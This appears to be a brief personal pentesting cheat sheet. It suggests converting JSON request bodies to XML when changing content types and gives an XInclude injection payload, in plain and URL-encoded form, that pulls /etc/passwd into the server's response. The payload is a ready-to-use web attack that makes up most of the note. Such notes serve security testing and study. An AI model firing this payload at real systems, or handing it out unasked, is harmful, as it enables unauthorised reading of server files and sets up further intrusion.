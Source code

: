 use this to convert json to xml when mucking around with content type:
https://www.freeformatter.com/json-to-xml-converter.html
_REMEMBER to get rid of `<root></root>` as required_

Xinjection: 
`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
`%3Cfoo%20xmlns:xi=%22http://www.w3.org/2001/XInclude%22%3E%3Cxi:include%20parse=%22text%22%20href=%22file:///etc/passwd%22/%3E%3C/foo%3E`
